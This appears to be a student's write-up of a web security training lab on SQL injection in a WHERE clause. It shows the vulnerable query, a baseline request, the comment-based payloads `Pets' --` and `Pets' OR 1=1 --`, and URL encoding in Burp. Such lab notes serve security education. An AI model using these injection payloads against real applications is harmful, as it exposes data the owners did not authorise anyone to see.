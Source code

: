 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Known information

- vulnerable to SQL injection
- parameter: URL argument category
- Query string used
- Result: Page contains filtered view of the category, showing only released products
- Goal: Show unreleased products

## Query

Query is provided as

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

The category string is likely taken directly from the URL argument

`SELECT * FROM products WHERE category = '<PARAM>' AND released = 1`

## Steps

### Find baseline

Find out what is the baseline, select Pets

--> 3 entries shown

### Ignore released part of query

Need to inject something that causes the 'AND released = 1' part to be ignored, for example by injecting a comment that ignores all the remaining part of the query.

`SELECT * FROM products WHERE category = 'Pets' -- AND released = 1`

inject `Pets' --`

This results in this query

`SELECT * FROM products WHERE category = 'Pets' -- ' AND released = 1`

Note the single quote after the `--`, which is added by the application. Due to the comment we don't have to deal with it.

#### URL encode

The URL needs to be properly encoded. When using a browser, this will be done automatically by the browser but is not shown in the URL bar. When using Burp Repeater the URL encoding needs to be done manually with `Ctrl+U`

![url encode in burp](img/url_encode.png)

==> 4 entries shown

### Show all products regardless of category

inject `Pets' OR 1=1 --`

![Result](img/result.png)
